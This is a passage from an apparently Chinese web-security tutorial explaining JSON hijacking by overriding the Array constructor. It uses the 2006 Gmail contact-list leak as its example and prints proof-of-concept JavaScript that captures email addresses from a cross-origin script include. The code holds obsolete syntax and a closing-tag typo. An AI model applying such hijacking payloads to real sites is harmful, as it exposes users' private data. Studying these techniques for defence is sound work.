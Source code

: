 #### 覆写数据构造器

若服务端返回的 JSON 数据中包含一个序列化数组，那攻击者就可以重定义数组构造器，以实现 JSON 数据的访问。比如 2006 年的 Gmail 就曾出现过 JSON 劫持联系人列表的漏洞，漏洞 CGI 位于：

```java
http://mail.google.com/mail/?_url_scrubbed_
```

它会返回联系人列表的 JSON 数据。

```json
[["ct","Your Name","foo@gmail.com"], ["ct","Another Name","bar@gmail.com"] ]
```

因此，可通过覆盖数组构造器来读取 JSON 数据。

```xml
<script>
//在网页添加一个 table 表去显示劫持到的联系人信息
var table = document.createElement('table');
table.id = 'content';
table.cellPadding = 3;
table.cellSpacing = 1;
table.border = 0;
// 重新定义 Array 构造器
function Array() {
  var obj = this;
  var ind = 0;
  var getNext;

  getNext = function(x) {
    obj[ind++] setter = getNext;  // 将数组元素的 setter 定义为 getNext 函数
    if(x) {
      var str = x.toString();  // 获取 JSON 数据并转换成字符串
      if ((str != 'ct')&&(typeof x != 'object')&&(str.match(/@/))) {
        var row = table.insertRow(-1); // 指定行尾部
        var td = row.insertCell(-1);  // 指定列尾部
        td.innerHTML = str;  // 插入到表格中
      }
    }
  };
  this[ind++] setter = getNext;
}
function readGMail() {
  document.body.appendChild(table);
}
</scirpt>
<script src="http://mail.google.com/mail/?_url_scrubbed_"></script>
```

从以上代码中我们可以总结整个攻击流程：

1. 通过`<script>`加载目标 JSON 对象到页面中；

2. 覆写 Array 对象，并设置数组元素的 setter 为 getNext 函数，有时也可以使用 Object.prototype.__defineSetter__来覆盖 setter；
